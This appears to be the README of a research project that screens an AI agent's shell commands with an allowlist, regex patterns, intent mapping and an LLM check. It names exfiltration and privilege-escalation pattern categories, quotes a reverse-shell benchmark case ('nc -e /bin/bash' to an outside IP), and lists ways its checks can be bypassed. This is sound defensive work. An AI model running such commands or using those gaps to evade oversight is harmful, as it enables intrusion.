

# AI Guardian Lab


> **Demo and research only.** The demo agent can execute LLM-generated shell
> commands with `/bin/bash -c` inside the Docker container. Real execution is
> opt-in (`EXECUTE_COMMANDS=true`; the default is a dry-run). There is no sandbox
> beyond the container. Do not use this in production without gVisor, Firejail,
> nsjail, or a disposable VM per command.

Guardian is a validation service that sits between an LLM agent and a shell. The
agent asks Guardian about a command before running it; Guardian answers
`approved: true` or `approved: false` with a reason. The decision comes from a
binary allowlist, a regex pattern set, and a task/command intent mapping. An LLM
is consulted only when the deterministic layers cannot classify the request.

## Components

| Component | Code | Host port | Role |
|-----------|------|-----------|------|
| Guardian API | `guardian/` | 5000 | Flask service: `/validate`, `/report`, `/learn`, `/forensics/analyze`, `/health` |
| Demo agent | `agent/` | 5001 | Asks an LLM for one bash command, validates it with Guardian, then dry-runs or executes it |
| Dashboard | `ui/` | 8081 | Reads the audit database and posts JSONL sessions to the forensics endpoint |
| Forensics | `guardian/forensics/` | — | Parses agent session logs, scores anomaly flags, returns a report |

`docker-compose.yml` defines all three services on a private `agent-net` bridge.
The agent and UI containers drop all Linux capabilities and set
`no-new-privileges`; Guardian keeps its defaults.

## How a command is decided

`POST /validate` runs four layers in order and stops at the first block.



1. **L1 — binary allowlist** (`guardian/config/policy.yaml`). Red-zone binaries
   are always blocked. With `mode: enforced` every binary that is not in the
   green or yellow zone is blocked as well (fail-closed); with `mode: permissive`
   only red-zone binaries are blocked. Every binary in a pipe or `&&` chain is
   checked, not just the first one. Commands longer than 1024 characters are
   rejected, and more than 10 concurrent validations are rejected rather than
   queued.
2. **L2 — pattern engine** (`guardian/config/patterns.yaml`, 40 patterns at
   startup). Categories: filesystem destruction, fork bombs, privilege
   escalation, remote execution, encoding bypass, subshell execution,
   exfiltration, sensitive file reads. The raw command and a normalized copy are
   both checked. At load time greedy `.*` is rewritten to `.*?`, patterns longer
   than 200 characters are skipped, and each match runs in a worker thread with a
   1 s timeout.
3. **L3 — intent mapping** (`guardian/guardian/intent.py`). The task text and the
   command are each mapped to one of six families — `read`, `write`, `delete`,
   `network`, `process`, `exec` — using static keyword lists. A pairing is
   blocked in either direction:

   | Family A | Family B |
   |----------|----------|
   | read | delete |
   | read | process |
   | read | exec |
   | write | delete |
   | write | process |
   | network | exec |

   Tasks of five characters or fewer skip this layer (`intent_source: skip`). If
   either the task or the command cannot be classified, the request goes to L4.
4. **L4 — LLM semantic check**. Runs only for the unclassified remainder, using
   `INTENT_LLM_MODEL` (default `ollama/deepseek-coder-v2:16b`) at `OLLAMA_URL`.
   The command is blocked only when the model returns `coherent=false` with
   confidence of at least 0.7. Any error — endpoint down, malformed JSON — blocks
   the command by default (`FAIL_CLOSED_ON_LLM_ERROR=true`); setting it to `false`
   approves on error instead. L4 cannot undo a block from L1–L3.

The normalized copy used by L2 and L3 decodes hex and base64 payloads
(`echo ... | xxd -r -p`, `echo ... | base64 -d`), rewrites `${IFS}` and `$'...'`
variants, strips `$(...)` and backticks, removes quote characters and escape
backslashes, and collapses whitespace.

## Auth and audit

- Every endpoint except `/health` requires an `X-API-Key` header matching
  `API_KEY`. If `API_KEY` is empty, every request is rejected.
- Decisions are written to SQLite (`DB_PATH`, default
  `/app/database/audit.db`, WAL mode): task, command, status, reason, provider,
  and intent source. Known secret shapes are masked before the row is written.
- Rate limits: 1000/day by default, 60/minute on `/validate` and `/report`,
  10/minute on `/learn`.

## Quick start

```bash
git clone https://github.com/Lukentony/AI-guardian-lab.git
cd AI-guardian-lab
./install.sh
```

`install.sh` checks Docker, asks for ports, provider, and models (Ollama by
default), writes `.env` with a generated `API_KEY`, and runs `docker compose up
-d` when it finishes. To configure by hand:

```bash
cp .env.example .env   # set API_KEY, LLM_PROVIDER and the matching variables
docker compose up -d
```

- Dashboard: http://localhost:8081
- Demo: `./demo.sh` sends four fixed requests to `/validate` (a red-zone `rm`, an
  obfuscated payload whose decoded content contains `rm`, and two allowed read
  commands)

## API

```bash
# Blocked at L1: rm is in the red zone
curl -s -X POST http://localhost:5000/validate \
  -H 'Content-Type: application/json' -H "X-API-Key: $API_KEY" \
  -d '{"command": "rm LICENSE", "task": "read the license file"}'
```

```json
{
  "approved": false,
  "reason": "Blocked: Binary 'rm' is in the RED zone (forbidden)",
  "intent_source": "allowlist"
}
```

```bash
# Blocked at L3: a read command under a delete task
curl -s -X POST http://localhost:5000/validate \
  -H 'Content-Type: application/json' -H "X-API-Key: $API_KEY" \
  -d '{"command": "ls -l", "task": "delete all logs"}'
```

```json
{
  "approved": false,
  "reason": "Blocked by Intent Mapping: Command family 'read' conflicts with task family 'delete'",
  "intent_source": "mapping"
}
```

```bash
# Allowed
curl -s -X POST http://localhost:5000/validate \
  -H 'Content-Type: application/json' -H "X-API-Key: $API_KEY" \
  -d '{"command": "ls -l", "task": "list files in /tmp"}'
```

```json
{
  "approved": true,
  "reason": "Approved",
  "intent_source": "mapping"
}
```

Layer order matters when you read a reason: with `mode: enforced`, `rm ...` is
stopped at L1 before L3 can report an intent conflict, so the reason names the
red zone, not the mapping.

The agent exposes `POST /execute` with `{"task": "..."}`. It asks the model for
one command, validates it, and returns a dry-run result unless
`EXECUTE_COMMANDS=true`; the executed command runs through `/bin/bash -c` with a
30 s timeout inside the container.

## Forensics

`POST /forensics/analyze` takes `{"jsonl": "..."}` (one JSON object per line) and
returns an anomaly score from 0 to 100 with three flags:

- **escalation** — deterministic; compares the risk progression of tool calls
- **intent drift** — asks the model whether the actions match the stated task
- **injection signals** — asks the model whether tool outputs contain injected
  instructions

The parser recognizes OpenHands, SWE-agent, and OpenClaw log shapes and returns a
timeline, per-flag confidences, and a summary. The dashboard has a paste form
(1 MB and 500-line caps); `scripts/demo_forensics.sh` runs the endpoint against
sample sessions.

Forensics is analysis only, not enforcement: a flagged session has already
completed.

## Tests and benchmark

```bash
python3.11 -m venv .venv && . .venv/bin/activate
pip install -r guardian/requirements.txt -r agent/requirements.txt
pip install requests-mock anyio httpx pytest-mock
python -m pytest tests/ -v
```

`tests/conftest.py` sets `TESTING=1`, uses `tests/data/policy.yaml`
(`mode: permissive`), and replaces `litellm` with a mock whose model always
approves. The benchmark tests therefore exercise the deterministic layers and the
L4 call path, not a real model.

The benchmark data is small and synthetic: 8 safe commands, 8 dangerous
commands, 6 intent cases. The assertions are ≥85% of safe commands approved, at
most one dangerous command approved, and ≥80% of intent cases correct. Measured
on this commit, with the test policy and the mock: safe 8/8, dangerous 7/8 (the
`nc -e /bin/bash 10.0.0.1 4444` case reaches L4 and the mock approves it), intent
6/6. With the shipped `mode: enforced` policy and the same mock: safe 7/8
(`df -h` is not in the allowlist), dangerous 8/8, intent 6/6.

These are smoke tests on a small dataset. They are not a measurement of
detection rates in production.

CI (`.github/workflows/ci.yml`) runs on pushes and pull requests to `main`:
Python 3.11, the two requirements files plus the test extras, `pytest` with a
JUnit artifact, a Bandit scan (report only, `|| true`), and a Docker smoke test
that builds the Guardian image and polls `/health`.

## Threat model and limits

Attacker model: someone who controls the LLM output or user input that reaches
it. Guardian assumes the attacker can inject instructions, obfuscate commands,
and try to separate the task description from the command. Guardian does not
assume the attacker can edit its configuration or policy files.

1. **The allowlist is the main gate.** The shipped green and yellow lists are
   short (`ls`, `cat`, `pwd`, `echo`, `date`, `curl`, `wget`, `git`). In enforced
   mode anything else is blocked, including common read-only tools such as `df`,
   `du`, and `find`. Expect to edit `policy.yaml` for your environment.
2. **Regex coverage is finite.** L2 catches what is written in `patterns.yaml`
   plus the normalizations listed above. Shell syntax outside that set can pass
   the deterministic layers.
3. **L4 depends on a model endpoint.** With the default
   `FAIL_CLOSED_ON_LLM_ERROR=true`, an unreachable model blocks every command L3
   cannot classify. With `false`, those commands are approved, and the layer
   disappears as a check.
4. **Guardian only sees what the agent sends.** There is no framework hook: an
   agent that does not call `/validate` bypasses the pipeline entirely. The demo
   agent calls it; other frameworks need an integration, and agent frameworks
   that block private IPs by default need an exception for Guardian.
5. **The audit log is not tamper-evident.** It is a local SQLite file with no
   hash chain and no signatures; anyone with write access to the file can edit or
   delete rows.
6. **This is not a sandbox.** The container limits what a bad command can reach,
   but the project does not isolate the filesystem, the network, or the kernel.

## Documentation

- [Architecture](docs/ARCHITECTURE.md)
- [API reference](docs/API.md)
- [Attack scenarios](docs/ATTACK_SCENARIOS.md)
- [Configuration](docs/CONFIGURATION.md)
- [Database](docs/DATABASE.md)
- [Deployment](docs/DEPLOY.md)
- [Installation](docs/INSTALL.md)
- [Security](docs/SECURITY.md)
- [Contributing](docs/CONTRIBUTING.md)
- [Troubleshooting](docs/TROUBLESHOOTING.md)

## License

MIT. See [LICENSE](LICENSE).
